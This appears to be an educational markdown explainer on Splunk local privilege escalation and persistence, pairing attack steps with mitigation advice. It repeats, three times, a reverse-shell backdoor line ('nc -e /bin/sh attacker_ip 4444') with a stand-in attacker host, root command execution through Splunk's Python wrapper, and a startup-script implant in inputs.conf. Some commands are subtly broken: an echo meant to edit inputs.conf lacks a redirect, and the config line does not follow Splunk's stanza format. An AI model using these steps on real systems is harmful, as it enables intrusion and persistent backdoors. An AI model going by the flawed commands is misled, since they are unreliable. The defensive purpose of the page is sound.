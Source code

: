 # Splunk LPE and Persistence


# 👉 Overview

---

### 👀 What ?

Splunk Local Privilege Escalation (LPE) and Persistence refers to a method of exploiting the Splunk platform to escalate privileges and maintain persistent access to a compromised system. Splunk, a popular platform for collecting and analyzing big data, can be a target for cyber attackers seeking to exploit its functionalities. This topic is crucial for understanding how such attacks occur and how to defend against them.


### 🧐 Why ?

Understanding Splunk LPE and Persistence is vital as it provides insights into some of the techniques cyber attackers may use. Splunk is widely used in organizations to collect, process, and analyze large volumes of data, which can make it a lucrative target for threat actors. Learning about these potential vulnerabilities can help organizations enhance their cybersecurity measures, identify potential attacks, and respond effectively.


### ⛏️ How ?

The exploitation process begins by gaining initial access to a Splunk instance. This can be achieved through various means such as exploiting a software vulnerability, phishing, or brute-forcing weak passwords. Once inside, the attacker can exploit misconfigurations or vulnerabilities within Splunk to escalate their privileges. With higher-level privileges, they can then establish persistent access, enabling them to remain within the system undetected and carry out malicious activities.


### ⏳ When ?

The practice of exploiting Splunk for LPE and Persistence has likely been in play since the platform's inception, as with any software that contains potential vulnerabilities. However, as cyber-attacks become more sophisticated and Splunk's usage continues to rise, the importance of understanding and addressing this topic has become more crucial.


# ⚙️ Technical Explanations

---

Splunk Local Privilege Escalation (LPE) and Persistence is an exploit technique that leverages misconfigurations or vulnerabilities within the Splunk platform. Splunk, a widely used data collection and analysis tool, can become a potential cyberattack target due to its capabilities and the wealth of data it handles.

The exploit process begins when an attacker gains initial access to a Splunk instance, usually through methods like software vulnerability exploitation, phishing attacks, or brute-forcing weak passwords. Once the attacker is inside, they can take advantage of misconfigurations or vulnerabilities within the Splunk system to escalate their privileges. For instance, if Splunk is operating with high-level privileges (like root or admin), the attacker could potentially execute commands with those same privileges, escalating their access level.

Persistence, or the ability to maintain access to a compromised system over time, can be achieved in several ways. One common method is by modifying Splunk's configuration files to execute malicious scripts whenever the system is rebooted. These scripts could perform a variety of actions, from creating backdoors for future access to installing additional malicious software.

To mitigate the risks associated with Splunk LPE and Persistence, organizations should take several steps. These include identifying and patching any vulnerabilities within their Splunk instances, implementing robust security measures like the least privilege principle (which restricts system access to only what is necessary for a user to perform their tasks), and conducting regular audits of their systems. By doing so, organizations can significantly reduce the chances of an attacker successfully exploiting their Splunk systems.

A detailed example of a Splunk Local Privilege Escalation (LPE) and Persistence attack could involve the following steps:

1. **Initial Access:** An attacker might gain initial access to a Splunk instance by exploiting a known software vulnerability. For instance, the attacker could use a vulnerability scanner like `nmap` to identify open ports and potential software vulnerabilities. An example command could be `nmap -p- -sV target_ip`.
2. **Exploitation:** Once inside, the attacker could exploit a misconfiguration within Splunk to escalate their privileges. For instance, if the Splunk service has been incorrectly configured to run as root, the attacker could execute commands with root privileges. This could be done by running a command like `./splunk cmd python`.
3. **Persistence:** To establish persistence, the attacker could modify a Splunk configuration file to execute a malicious script whenever the system is rebooted. For instance, they could add a line to the `inputs.conf` file, which Splunk reads upon each startup. The line could be something like `script = /path/to/malicious_script.sh`.
4. **Malicious Actions:** The malicious script (`malicious_script.sh`) could perform actions such as creating a backdoor for future access or installing additional malicious software. For instance, it could contain a line like `nc -e /bin/sh attacker_ip 4444` to create a reverse shell backdoor.

To mitigate the risks associated with this attack, organizations should:

- Regularly update and patch their Splunk instances to fix known vulnerabilities.
- Ensure the Splunk service is not running with unnecessary high-level privileges.
- Regularly audit their Splunk configuration files for any suspicious modifications.
- Implement the principle of least privilege, limiting system access to only what is necessary for a user to perform their tasks.

### Initial Access

Attackers may gain initial access to a Splunk instance through various methods, such as exploiting software vulnerabilities, conducting phishing attacks, or brute-forcing weak passwords. This stage often involves reconnaissance and the identification of potential entry points.

1. **Reconnaissance**:
    - Attackers use tools like `nmap` to scan for open ports and identify services running on the target system.
    - Example command: `nmap -p- -sV target_ip`
    - This scan helps identify the Splunk instance and its version, which is critical for finding exploitable vulnerabilities.
2. **Exploitation**:
    - If a vulnerability is found, such as an outdated Splunk version with known exploits, the attacker can use specific exploits to gain initial access.
    - Tools like `Metasploit` can automate this process, leveraging modules tailored for known Splunk vulnerabilities.

### Privilege Escalation

Once the attacker has initial access, the next step is to escalate privileges. This involves exploiting misconfigurations or vulnerabilities that allow the attacker to gain higher-level permissions, such as root or admin rights.

1. **Service Misconfiguration**:
    - If Splunk services are running with high-level privileges (e.g., as the root user), attackers can exploit this misconfiguration.
    - Commands executed within Splunk can inherit these high-level privileges.
2. **Command Execution**:
    - An attacker could use the `./splunk cmd python` command to run Python scripts with elevated privileges.
    - Example: `./splunk cmd python -c 'import os; os.system("whoami")'` could reveal the current user, and if it's root, further exploitation can proceed.

### Persistence

To maintain long-term access, attackers need to establish persistence within the system. This can be done by modifying Splunk configuration files or other startup scripts to ensure malicious code is executed upon system reboot.

1. **Configuration Modification**:
    - Splunk reads several configuration files at startup, such as `inputs.conf`.
    - An attacker could insert a malicious command into this file.
    - Example: `script = /path/to/malicious_script.sh`
2. **Malicious Script**:
    - The inserted script (`malicious_script.sh`) could perform various actions:
        - Creating a backdoor: `nc -e /bin/sh attacker_ip 4444` opens a reverse shell back to the attacker.
        - Installing additional malware or tools for further exploitation.

### Mitigation Strategies

To protect against Splunk LPE and Persistence attacks, organizations should implement robust security measures:

1. **Patch Management**:
    - Regularly update and patch Splunk instances to fix known vulnerabilities.
    - Monitor Splunk's security advisories for updates.
2. **Principle of Least Privilege**:
    - Configure Splunk services to run with the least privileges necessary.
    - Avoid running Splunk as the root user unless absolutely required.
3. **Regular Audits**:
    - Conduct periodic audits of Splunk configuration files to detect unauthorized changes.
    - Use file integrity monitoring tools to alert on modifications.
4. **Security Best Practices**:
    - Implement strong authentication mechanisms, such as multi-factor authentication (MFA).
    - Regularly review and update password policies to ensure strong, unique passwords.

### Example Attack Scenario

To illustrate a Splunk LPE and Persistence attack, consider the following steps:

1. **Initial Access**:
    - The attacker scans the network and finds a vulnerable Splunk instance using `nmap`.
    - They exploit a known vulnerability to gain access.
2. **Privilege Escalation**:
    - Inside the Splunk instance, they find that Splunk is running as root.
    - They execute `./splunk cmd python -c 'import os; os.system("id")'` to confirm their privileges.
3. **Persistence**:
    - They modify the `inputs.conf` file: `echo 'script = /path/to/malicious_script.sh' /opt/splunk/etc/system/local/inputs.conf`.
    - The `malicious_script.sh` contains `nc -e /bin/sh attacker_ip 4444`, creating a reverse shell on reboot.

By following these detailed steps, an attacker can exploit and maintain control over a Splunk instance. Implementing the recommended mitigation strategies can significantly reduce the risk of such attacks.

